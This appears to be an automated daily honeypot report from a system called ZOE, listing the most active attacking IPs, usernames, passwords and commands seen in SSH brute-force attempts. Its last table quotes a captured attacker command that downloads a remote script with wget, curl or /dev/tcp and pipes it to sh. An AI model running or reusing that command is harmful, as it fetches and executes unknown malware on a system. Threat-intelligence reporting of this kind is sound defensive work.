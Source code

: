 # ZOE - The daily report for the malicious behavior

> daily report for the malicious user behavior

This is the daily report for the malicious user behavior. It is generated by the ZOE system.

## SSH

The following table shows the top 10 malicious SSH users that have been detected by the ZOE
system. The table is sorted by the number of attempts.

### Top 10 malicious users

| Client IP | Count    |
|-----------|----------|
| 8.210.22.143 | 4596 |
| 23.225.156.148 | 1621 |
| 118.31.22.32 | 1308 |
| 103.173.227.187 | 741 |
| 120.79.150.179 | 365 |
| 14.29.223.150 | 159 |
| 212.192.42.211 | 120 |
| 222.253.33.98 | 64 |
| 42.100.35.193 | 62 |
| 104.248.129.160 | 60 |

### Top 10 malicious try to login as

| Usernames | Count    |
|-----------|----------|
| root | 1198 |
| test | 22 |
| admin | 14 |
| ubuntu | 14 |
| harayama | 11 |
| hrashidi | 11 |
| tieyong | 11 |
| user | 11 |
| aespantoso | 10 |
| alipapeli | 10 |

### Top 10 malicious try to authenticate with

| Password | Count    |
|-----------|----------|
| 123456 | 475 |
| 111111 | 44 |
| password | 18 |
| 123 | 17 |
| hrashidi | 11 |
| harayama | 11 |
| 1234 | 11 |
| tedtimbrell | 10 |
| davod | 10 |
| chkalovmebel | 10 |

### Top malicious commands try to execute

| Client | Command |
|--------|---------|
| 14.29.223.150 | uname -s -m |
| 5.182.211.148 | uname -a; echo -e "\x61\x75\x74\x68\x5F\x6F\x6B\x0A"; SC=$(wget -O- http://94.156.177.109/sh \|\| curl http://94.156.177.109/sh); if [ $? -ne 0 ]; then exec 3<>"/dev/tcp/94.156.177.109/80"; echo -e "GET /sh HTTP/1.0\r\nHost: 94.156.177.109\r\n\r\n" >&3; (while read -r line; do [ "$line" = $'\r' ] && break; done && cat) <&3 \| sh -s ssh; exec 3>&-; else echo "$SC" \| sh -s ssh; fi |
